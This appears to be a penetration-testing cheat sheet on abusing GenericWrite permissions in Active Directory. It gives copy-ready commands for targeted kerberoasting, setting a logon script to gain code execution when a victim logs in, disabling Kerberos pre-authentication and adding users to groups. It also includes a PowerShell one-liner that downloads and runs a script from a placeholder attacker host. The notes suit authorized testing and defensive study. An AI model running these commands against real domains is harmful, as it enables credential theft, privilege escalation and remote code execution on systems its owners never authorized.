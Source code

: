 # Abusing GenericWrite (User over User)

If an user have GenericWrite over an user can get user nthash, kerberoast hash and change user properties, this properties include change logon script wich allows for RCE if user connects.

### Shadow credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

#### From Linux (externally, recomended):

With password -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -p '<password>'`

With nt hash  -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -H :<nt hash>`

<br>

Kerberos Authentication:

`getTGT.py <domain>/<user>:<password> -dc-ip <dc_ip>`

`export KRB5CCNAME=<file.ccache>`

`targetedKerberoast.py -v -d '<domain>' -u '<user>' -k --no-pass --dc-host <machine.domain>`

Note: If clock error appears "KRB_AP_ERR_SKEW" use kerberos sync command before.

<br>

#### From Windows (internally):

Load powerview module first -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

Make sur that the target account has no SPN -> `Get-DomainUser '<victimuser>' | Select serviceprincipalname`

Set the SPN -> `Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}`

Obtain a kerberoast hash -> `$User = Get-DomainUser '<victimuser>' ; $User | Get-DomainSPNTicket | fl`

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You change can some properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>


### Make user asreproastable:
#### (internally inside victim machine)

You can turn that user in to a asreproastable user setting "doesnotrequirepreauth" to "true"

`get-aduser targetusername | Set-ADAccountControl -doesnotrequirepreauth $true`

<br>

-------------------------------------------------

# Abusing GenericWrite (User over Group)

Technically if an user have GenericWrite over a grup can move user into that group and change some group properties.

### Set an user inside that group:
#### (externally, from attacking machine)
You can put users inside the that group, including your self.

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>`

BloodyAD -> `bloodyAD --host '<ip>' -d '<domain>' -u '<controlled_user>' -p '<password>' add groupMember '<target_group>' '<target_user>'`

<br>

#### (internally, inside victim machine)

If you get inside the machine try it manually. If unsuccesfull you can also try with powerview.

`net group '<target_group>' <target_user> /add /domain`

Source: https://www.hackingarticles.in/genericwrite-active-directory-abuse/


